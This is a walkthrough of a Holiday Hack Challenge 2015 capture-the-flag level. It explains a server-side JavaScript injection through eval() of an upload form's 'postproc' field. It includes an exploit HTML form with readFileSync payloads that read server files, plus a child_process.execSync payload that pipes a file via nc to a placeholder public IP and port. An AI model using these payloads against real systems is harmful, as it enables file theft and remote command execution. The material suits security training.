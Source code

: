## Holiday Hack Challenge 2015
# Level 4-4 : Gnomage Pwnage (SG-04)

The goal for Level 4 is to get access to all 5 of the SuperGnome servers and download the **/gnome/www/files/gnome.conf** file from each of them

Login into SG-04 (52.192.152.132) using the admin credentials (admin:SittingOnAShelf)

This time around, the website is a little different
- File download has been disabled
- 'Files' page now has an upload form

![01](img/01.png)

Read the source code from **/www/routes/index.js** that handles the FilesUpload

```js
// FILES UPLOAD
router.post('/files', upload.single('file'), function(req, res, next) {
  if (sessions[sessionid].logged_in === true && sessions[sessionid].user_level > 99) { // NEDFORD: this should be 99 not 100 so admins can upload
    var msgs = [];
    file = req.file.buffer;
    if (req.file.mimetype === 'image/png') {
      msgs.push('Upload successful.');
      var postproc_syntax = req.body.postproc;
      console.log("File upload syntax:" + postproc_syntax);
      if (postproc_syntax != 'none' && postproc_syntax !== undefined) {
        msgs.push('Executing post process...');
        var result;
        d.run(function() {
          result = eval('(' + postproc_syntax + ')');
        });
        // STUART: (WIP) working to improve image uploads to do some post processing.
        msgs.push('Post process result: ' + result);
      }
      msgs.push('File pending super-admin approval.');
      res.msgs = msgs;
    } else {
      msgs.push('File not one of the approved formats: .png');
      res.msgs = msgs;
    }
  } else
    res.render('index', { title: 'GIYH::ADMIN PORT V.01', session: sessions[sessionid], res: res });
  next();
});
```

Follow the usage of the "postproc" parameter

```js
var postproc_syntax = req.body.postproc;
...
if (postproc_syntax != 'none' && postproc_syntax !== undefined) {
...
result = eval('(' + postproc_syntax + ')');
```

The parameter is used directly in a "eval" function without sanitisation. This means that any Javascript code that is provided through this input will be executed. In the case of a NodeJS environment, this is a Server Side Javascipt (SSJS) Injection vulnerability

Looking at the HTML code of the Files Upload form itself shows that it is doing exactly that

```html
<div class="form-group form-group-1g">
  <h4 class="col-sm-5">Post-process:</h4>
  <div class="col-sm-7">
    <select required="" name="postproc" class="form-control">
      <option value="none">none</option>
      <option value="postproc(&quot;timestamp&quot;, file)">timestamp</option>
      <option value="postproc(&quot;darken50&quot;, file)">darken 50%</option>
      <option value="postproc(&quot;darken20&quot;, file)">darken 20%</option>
      <option value="postproc(&quot;brighten50&quot;, file)">brighten 50%</option>
      <option value="postproc(&quot;brighten20&quot;, file)">brighten 20%</option>
    </select>
  </div>
</div>
<div class="form-group">
  <h4 class="col-sm-5">Choose a file:</h4>
  <div class="col-sm-7">
    <input required="" name="file" class="form-control" type="file">
  </div>
</div>
<div class="form-group">
  <div class="col-sm-offset-6 col-sm-6">
    <button type="submit" class="login btn btn-primary">Upload</button>
  </div>
</div>
```

A Javascript function call is passed directly through the parameter

This is exceptionally dangerous in a NodeJS environment because NodeJS provides a lot of powerful functions. The following function allows the reading of any arbitrary file on the server.

> require('fs').readFileSync('/gnome/www/files/gnome.conf')

To make it easier to exploit without having to setup a proxy, I created a [HTML document](pwn4.html) with the following form that is aimed at SG-04's file upload

```html
<h2>Upload New File</h2>
<form action="http://52.192.152.132/files" method="post" role="form" enctype="multipart/form-data">
  <h4>Post-process:</h4>
  <select required name="postproc">
    <option value="res.end(require('fs').readFileSync('/gnome/www/files/gnome.conf'))">gnome.conf</option>
    <option value="res.end(require('fs').readFileSync('/gnome/www/files/sgnet.zip'))">sgnet.zip</option>
    <option value="res.end(require('fs').readFileSync('/gnome/www/files/20151203133815.zip'))">20151203133815.zip</option>
    <option value="res.end(require('fs').readFileSync('/gnome/www/files/factory_cam_4.zip'))">factory_cam_4.zip</option>
    <option value="res.send(require('child_process').execSync('cat /gnome/www/files/factory_cam_4.zip | nc YOUR_PUBLIC_IP YOUR_PUBLIC_PORT'))">factory_cam_4</option>
  </select>
  <h4>Choose a file:</h4>
  <input required name="file" type="file">
  <button type="submit">Upload</button>
</form>
```

Do note that you will need to login into SG-04 first before using the above form to exploit it. 

Also, "res.end()" basically ends the HTTP response and tell the server to respond with whatever it's provided with. In this case, its the file's contents

![02](img/02.png)

Similar to SG-02, the file uploaded is not processed in any ways. It must be a PNG file though which the code does check for. Thus, any PNG file will do.

![03](img/03.png)

[SG04_gnome.conf](SG04_gnome.conf)

```
Gnome Serial Number: BU22_1729_2716057 
Current config file: ./tmp/e31faee/cfg/sg.01.v1339.cfg
Allow new subordinates?: YES
Camera monitoring?: YES
Audio monitoring?: YES
Camera update rate: 60min
Gnome mode: SuperGnome
Gnome name: SG-04
Allow file uploads?: YES
Allowed file formats: .png
Allowed file size: 512kb
Files directory: /gnome/www/files/
```

PS: Use the same method to download the factory_cam_4.zip and 20151203133815.zip for Level 5 too (They are already included in the exploit form above)

PPS: Notice there is an additional option to download factory_cam_4.zip which is different??

**Getting factory_cam_4.zip**

When I used the readFileSync method to try and get the "factory_cam_4.zip" file, the download kept getting truncated (cut off at ~65KB mark of a 1.1MB file). Some of my friends downloaded it succesfuuly through this method but I couldn't get it to work

I tried another way which also highlights another powerful/dangerous function of NodeJS

> require('child_process').execSync('cmds here')

This function allows you to execute any command line commands through Javascript. In this case, I used cat and nc to transfer the file back to me.

> require('child_process').execSync('cat /gnome/www/files/factory_cam_4.zip | nc YOUR_PUBLIC_IP YOUR_PUBLIC_PORT')

This method do require you to have access to a public facing IP or Domain where you can setup a nc listener

For me, my ASUS router has a free DDNS service which I could use to get a public facing Domain. If anybody needs help on how to set this up, just pop me a message.